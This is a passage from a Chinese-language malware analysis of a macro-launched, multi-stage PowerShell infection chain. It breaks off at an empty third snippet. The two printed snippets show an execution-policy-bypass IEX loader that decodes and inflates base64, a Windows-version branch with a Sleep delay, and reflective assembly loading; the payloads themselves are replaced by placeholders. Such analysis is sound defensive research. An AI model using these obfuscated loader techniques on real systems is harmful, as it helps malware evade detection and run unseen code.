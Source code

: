 [![](https://p0.ssl.qhimg.com/t015a9b6504f7a36c15.png)](https://p0.ssl.qhimg.com/t015a9b6504f7a36c15.png)

如图所示，宏代码从文档的第一个单元格中开始检索内容，然后将其与后续的6行内容连接起来。它的执行启动了感染的“powershell阶段”：一系列的多层混淆脚本。

```
代码片段1:
powershell.exe -EP bYpass IEx (‘$w=’OBFUSCATED PAYLOAD ZERO‘;$v=[IO.COmpresSIon.comPresSiONmOde];$j=20*60;sal M neW-OBJeCt;$e=[TexT.ENcoDiNG]::ASCiI;(M io.sTreAmreAdER((M Io.coMPREsSIoN.dEfLatesTReam([Io.meMORySTrEam][CoNVERt]::FRomBase64STRINg($w),$v::decOMpREss)),$e)).reaDTOEnD()|&amp;($PshOME[4]+$PshoMe[34]+”x”)’)
```



## Powershell 阶段

在第一层的混淆中，我们注意到变量`“$j”`的声明，该变量在混淆处理的下一步中用于通过`Sleep`库函数的调用来延迟脚本的执行。

```
代码片段2:
$b=’i’+$sHeLlid[13]+’X’;if ([Environment]::OSVersion.Version.Major -ne ’10’) `{`Sleep $j;.($b)(M sYSTEm.Io.CoMpresSiOn.DEFlatestReam([sySTeM.Io.MeMoRYsTREAm] [cOnveRt]::FrOMbASe64stRinG(‘ OBFUSCATED PAYLOAD ONE ‘),$v::DecOMprESs)|%`{`M syStEM.Io.sTReAmrEADEr($_,[TexT.ENcoDiNG]::ASCIi)`}`).READtoenD()`}`else `{`$h=’$y=@( OBFUSCATED PAYLOAD TWO )’.replace(‘c’,’,0,’);$h=$h.replace(‘b’,’,101,’);$h=$h.replace(‘a’,’,0,0,0,’);.($b)($h);[Reflection.Assembly]::Load([byte[]]$y)|Out-Null;.($b)([SA.Sii]::pf())`}`
```

该阶段有趣的一点是其会检查安装在受害者计算机上的windows版本，上面的代码片段中包含一个`if`条件语句，来决定执行哪一个分支的感染链。如果目标版本不是windows 10，恶意软件会运行`OBFUSCATED PAYLOAD ONE`（另外一个分支将会在`The Windows 10分支`章节中阐述）。在`OBFUSCATED PAYLOAD ONE`分支中，其下一步是：

```
代码片段3:
```